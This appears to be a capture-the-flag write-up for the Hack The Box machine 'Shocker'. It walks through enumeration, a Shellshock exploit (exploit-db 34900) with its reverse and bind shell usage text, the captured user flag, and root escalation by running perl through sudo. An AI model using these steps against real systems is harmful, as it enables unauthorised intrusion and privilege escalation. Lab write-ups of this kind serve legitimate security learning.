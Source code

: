 created : 23rd June 2021
comments : Needs formatting

# Shocker 
A Linux Box featuring the Shellshock vulnerability

## Enumeration
First we run nmap scan against the machine.
![](./images/shocker_nmap.png)

We can see that two ports are open 80 (http) and 2222 (SSH)

Since we have Apache running, let see how the site looks like
![](./images/shocker_http.png)

We now do directory enumeration
![](./images/shocker_gobuster.png)
Above we can see that we found a directory `/cgi-bin/`  

Let's futher bruteforce it to see if we have any scripts in there.
![](./images/shocker_gobuster2.png)
We found a script `user.sh` in `/cgi-bin/` directory

Requesting this in burp
![](./images/shocker_burp.png)

It seems like an output for a script, so we might have a shellshock vulnerability.

We run this by searchsploit.
![](./images/shocker_ss.png)
Out of all the results, 34900 look good as it concerns with Apache mod_cgi, so we give it a try.

Lets  try it
```shell
┌──(kali㉿kali)-[~/htb/shocker]
└─$ locate 34900.py  
/usr/share/exploitdb/exploits/linux/remote/34900.py
                                                                                                            
┌──(kali㉿kali)-[~/htb/shocker]
└─$ cp /usr/share/exploitdb/exploits/linux/remote/34900.py .
                                                                                                            
┌──(kali㉿kali)-[~/htb/shocker]
└─$ vim 34900.py     
```

Here is the usage
```python
Usage:                                                                                                  
./exploit.py var=<value>                                                                                
                                                                                                        
Vars:                                                                                                   
rhost: victim host                                                                                      
rport: victim port for TCP shell binding                                                                
lhost: attacker host for TCP shell reversing                                                            
lport: attacker port for TCP shell reversing                                                            
pages:  specific cgi vulnerable pages (separated by comma)                                              
proxy: host:port proxy                                                                                  
                                                                                                        
Payloads:                                                                                               
"reverse" (unix unversal) TCP reverse shell (Requires: rhost, lhost, lport)                             
"bind" (uses non-bsd netcat) TCP bind shell (Requires: rhost, rport)                                    
                                                                                                        
Example:                                                                                                
                                                                                                        
./exploit.py payload=reverse rhost=1.2.3.4 lhost=5.6.7.8 lport=1234                                     
./exploit.py payload=bind rhost=1.2.3.4 rport=1234    
 ```
 
 lets fire the script
 
 
 
 Now we have shell access, lets get the user flag
 ```shell
 10.10.10.56> cat user.txt
a4f237c30bbd60e6be8f2079bbbba8c2

// Also checked sudo commands
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

From above we can see that we can run `perl` as root. This is nice and will help in privelege escalation.

Now, we try to find a perl reverse shell. I found one at [pentest monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

Below is a failed attempt
![](./images/shocker_exploit1.png)

Below i try with sudo precedding the full path of perl as mentioned in `sudo -l`
![](./images/shocker_exploit2.png)

Now we have root. Cheers!

